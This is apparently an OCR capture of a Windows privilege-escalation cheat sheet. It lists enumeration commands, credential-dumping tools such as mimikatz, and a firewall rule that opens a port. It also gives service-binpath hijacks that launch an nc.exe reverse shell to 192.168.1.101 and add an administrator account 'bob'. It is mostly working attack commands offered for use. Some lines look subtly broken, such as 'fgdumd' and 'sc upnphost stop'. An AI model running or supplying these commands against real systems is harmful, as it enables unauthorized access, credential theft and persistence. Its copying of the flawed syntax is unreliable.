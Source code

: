 ````
net user
net localgroup
net use
```

#### Processes
```
tasklist /v /fi "username eq system"
schtasks /query /fo LIST /v
```
#### Password hashes
```
wce -w
fgdumd
mimikatz.exe
```
#### Network
```
arp -a
ipconfig /all
netstat -ano
netstat -nr
route print
```
#### Firewall
```
netsh firewall show state
netsh firewall show config
netsh firewall add portopening TCP 80 "Open Port 80"
```

# Services
https://toshellandback.com/2015/11/24/ms-priv-esc/

#### Services we can modify binpath
```accesschk.exe -uwcqv "Authenticated Users" * /accepteula``` - (weak service permissions for all authenticated users)

```accesschk.exe -uwcqv "John" * -accepteula``` - (weak service permissions for specific user)

```
sc qc upnphost
sc config upnphost binpath= "C:\Inetpub\nc.exe 192.168.1.101 6666 -e c:\Windows\system32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc config upnphost depend= ""
sc upnphost stop
sc upnphost start
```

OR a msfvenom revshell (```.vbs``` or ```.exe```)


#### user add


```
sc qc upnphost
sc config upnphost binpath= "net user bob Password01 /add"
sc config upnphost obj= ".\LocalSystem" password= ""
sc config upnphost depend= ""
sc upnphost stop
sc upnphost start
sc config upnphost binpath= "net localgroup Administrators bob /add"
sc upnphost stop
sc upnphost start
```

````